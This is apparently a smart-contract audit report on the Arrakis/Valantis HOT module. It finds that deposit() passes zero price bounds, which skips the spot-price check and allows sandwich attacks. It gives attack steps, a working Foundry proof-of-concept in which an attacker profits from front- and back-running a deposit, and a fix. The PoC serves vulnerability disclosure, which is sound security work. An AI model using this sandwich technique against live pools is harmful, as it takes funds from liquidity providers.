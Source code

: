 Tricky Alabaster Panda

medium

# The expected price bounds are not passed in to alm.depositLiquidity(), allowing a sandwich attack

## Summary

The functions `HOT.depositLiquidity` and `HOT.withdrawLiquidity` include 2 of the following parameters:

- _expectedSqrtSpotPriceLowerX96
- _expectedSqrtSpotPriceUpperX96

These are bounds for the expected spot price, to ensure that the spot price has not been manipulated by malicious actors during the execution of the function call. 

This is evident as the code comment in `HOT.depositLiquidity()` states:
```solidity
// Allow `liquidityProvider` to cross-check sqrt spot price against expected bounds,
// to protect against its manipulation
```

Due to these values not being passed in, the checks do not occur, allowing for a sandwich attack to occur.

## Vulnerability Detail

`ValantisHOTModulePublic.deposit()` deposits liquidity into the ALM via the following line:

```solidity
alm.depositLiquidity(amount0, amount1, 0, 0);
```

**The issue:**

Note how the last two params (the spot price bounds) are set to zero.

This means that within the `depositLiquidity` function, the spot price check inside the internal function `_checkSpotPriceRange` will be entirely skipped (see PoC). 

**Attack Steps:**

1. Frontrun the deposit() call with a large swap from tokenA->tokenB
2. deposit() occurs, increasing the liquidity of the pool
3. Backrun the deposit() call, with a large swap from tokenB->tokenA

Since the price impact in step 3 is lower than the price impact in step 1, the attacker gains a profit since the 'average price' for selling was higher than the 'average price' for buying.

For more details regarding the attack, see this article: https://eigenphi.substack.com/p/a-brand-new-sandwich-bot-that-could

## Impact

Since the spot price bound check is completely skipped, a malicious actor can manipulate sandwich the depositing of liquidity to earn a profit.

## Proof of Concept

The coded PoC demonstrates how a large swap can be used to earn a 0.4% risk free profit via a sandwich attack. 

Add the file to `arrakis-modular/test/integration` and run `forge test --mt test_sandwich_addLiquidity`

<details>    
<summary>Coded PoC</summary>

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.19;


// Foundry Imports
import {console} from "forge-std/console.sol";
import {Vm} from "forge-std/Vm.sol";
import {Test} from "forge-std/Test.sol";

// Arrakis Imports
import {IArrakisMetaVaultPublic} from
    "../../src/interfaces/IArrakisMetaVaultPublic.sol";
import {IArrakisMetaVault} from
    "../../src/interfaces/IArrakisMetaVault.sol";
import {IArrakisStandardManager} from
    "../../src/interfaces/IArrakisStandardManager.sol";
import {IArrakisLPModule} from
    "../../src/interfaces/IArrakisLPModule.sol";

// Valantis Imports
import {IValantisHOTModule} from
    "../../src/interfaces/IValantisHOTModule.sol";
import {SovereignPool} from  "../../lib/valantis-hot/lib/valantis-core/src/pools/SovereignPool.sol";
import {HOT} from "@valantis-hot/contracts/HOT.sol";

// Base Test
import {ValantisIntegrationPublicTest} from "./ValantisIntegrationPublic.t.sol";

import {
    SovereignPoolConstructorArgs,
    SovereignPoolSwapParams,
    SovereignPoolSwapContextData
} from
    "../../lib/valantis-hot/lib/valantis-core/test/base/SovereignPoolBase.t.sol";

contract PoC_Sandwich_AddLiquidity is ValantisIntegrationPublicTest {

    address user;
    address receiver;
    address whale;
    
    address attacker;

    uint160 internal constant MIN_SQRT_PRICE = 4295128739;
    uint160 internal constant MAX_SQRT_PRICE = 1461446703485210103287273052203988822378723970342;

    function test_sandwich_addLiquidity() public {

        // #region mint.
        user = makeAddr("user");
        receiver = makeAddr("receiver");
        whale = makeAddr("whale");
        attacker = makeAddr("attacker");

        deal(address(token0), user, init0);
        deal(address(token1), user, init1);
        deal(address(token0), whale, init0*10);
        deal(address(token1), whale, init1*10);

        address m = address(IArrakisMetaVault(vault).module());

        // Minting initial vault shares
        vm.startPrank(user);
        token0.approve(m, init0);
        token1.approve(m, init1);

        IArrakisMetaVaultPublic(vault).mint(1e18, receiver);
        vm.stopPrank();

        // #endregion mint.

        // #region do a swap.

        uint256 amountIn = 2010e6;
        bool isZeroForOne = true;

        deal(address(token0), attacker, amountIn);

        vm.prank(attacker);
        token0.approve(address(pool), amountIn);
        
        SovereignPoolSwapParams memory swapParams =
        SovereignPoolSwapParams({
            isSwapCallback: false,
            isZeroToOne: isZeroForOne,
            amountIn: amountIn,
            amountOutMin: 0,
            recipient: attacker,
            deadline: block.timestamp + 2,
            swapTokenOut: isZeroForOne ? address(token1) : address(token0),
            swapContext: SovereignPoolSwapContextData("", "", "", "")
        });


        vm.prank(attacker);
        (uint256 amountInUsed, uint256 amountOut) = pool.swap(swapParams);

        console.log("amountInUsed: %e", amountInUsed);


        // Whale adds liquidity
        vm.startPrank(whale);
        token0.approve(m, init0*10);
        token1.approve(m, init1*10);

        IArrakisMetaVaultPublic(vault).mint(4.5e18, receiver);
        vm.stopPrank();

        // Attacker swaps back to token0
        swapParams = SovereignPoolSwapParams({
            isSwapCallback: false,
            isZeroToOne: !isZeroForOne,
            amountIn: amountOut,
            amountOutMin: 0,
            recipient: attacker,
            deadline: block.timestamp + 2,
            swapTokenOut: !isZeroForOne ? address(token1) : address(token0),
            swapContext: SovereignPoolSwapContextData("", "", "", "")
        });

        vm.startPrank(attacker);
        token1.approve(address(pool), amountOut);

        (, uint256 amountOut2) = pool.swap(swapParams);

        console.log("amountOut: %e", amountOut2);   

        // Assert that the attacker made a profit
        assertGt(amountOut2, amountInUsed);
    }
}

```
</details>    


## Code Snippet

https://github.com/sherlock-audit/2024-03-arrakis/blob/64a7dc6ccb5de2824870474a9f35fd3386669e89/arrakis-modular/src/modules/ValantisHOTModulePublic.sol#L91

## Tool used

Manual Review

## Recommendation
Consider passing in an expected lower and upper bound for the price to prevent spot price manipulation.